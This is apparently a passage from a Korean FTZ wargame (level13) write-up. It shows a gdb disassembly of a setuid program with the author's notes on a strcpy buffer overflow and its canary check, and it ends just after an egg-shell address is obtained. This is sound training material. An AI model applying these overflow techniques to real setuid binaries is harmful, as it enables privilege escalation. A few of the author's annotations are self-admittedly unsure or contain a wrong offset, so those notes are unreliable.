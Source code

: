 ```c
   }
}
```


### 3. gdb attackme

```
0x080484a0 <main+0>:	push   ebp
0x080484a1 <main+1>:	mov    ebp,esp
0x080484a3 <main+3>:	sub    esp,0x418
0x080484a9 <main+9>:	mov    DWORD PTR [ebp-12],0x1234567
; ebp-12 지점에 0x1234567이 들어가게 된다. 실제로 들어가는 값은 0x01234567
0x080484b0 <main+16>:	sub    esp,0x8
0x080484b3 <main+19>:	push   0xc16
0x080484b8 <main+24>:	push   0xc16
0x080484bd <main+29>:	call   0x8048370 <setreuid>
0x080484c2 <main+34>:	add    esp,0x10
0x080484c5 <main+37>:	cmp    DWORD PTR [ebp+8],0x1
0x080484c9 <main+41>:	jle    0x80484e5 <main+69>
0x080484cb <main+43>:	sub    esp,0x8
0x080484ce <main+46>:	mov    eax,DWORD PTR [ebp+12]
; eax 는 strcpy가 가지는 첫 번째 인자, long i
0x080484d1 <main+49>:	add    eax,0x4
0x080484d4 <main+52>:	push   DWORD PTR [eax]
0x080484d6 <main+54>:	lea    eax,[ebp-1048]
; ebp-10448 위치가 argv[1] 즉 사용자가 입력한 값이 된다.
; eax 는 strcpy가 가지는 두 번째 인자 arvg[1]이 된다.
0x080484dc <main+60>:	push   eax
0x080484dd <main+61>:	call   0x8048390 <strcpy>
0x080484e2 <main+66>:	add    esp,0x10
0x080484e5 <main+69>:	cmp    DWORD PTR [ebp-12],0x1234567
; ebp-12가 가르키는 주소의 값과 0x1234567이 같다면 zf(zeroflag)가 1이 된다.
; zf는 cmp의 결과 값이 0(false)이면 1로 셋팅, 잉? 맞나? 다시확인
0x080484ec <main+76>:	je     0x804850d <main+109>
; zf 값이 1이면 해당 함수로 이동하게 된다.
; 0x804850d = leave ret로 이동하게 됨
0x080484ee <main+78>:	sub    esp,0xc
0x080484f1 <main+81>:	push   0x80485a0
0x080484f6 <main+86>:	call   0x8048360 <printf>
0x080484fb <main+91>:	add    esp,0x10
0x080484fe <main+94>:	sub    esp,0x8
0x08048501 <main+97>:	push   0xb
0x08048503 <main+99>:	push   0x0
0x08048505 <main+101>:	call   0x8048380 <kill>
0x0804850a <main+106>:	add    esp,0x10
0x0804850d <main+109>:	leave
0x0804850e <main+110>:	ret
0x0804850f <main+111>:	nop
```

### 4. exploit
[level13@ftz tmp]$ /tmp/getegg
EGG addr : 0xbffff46a
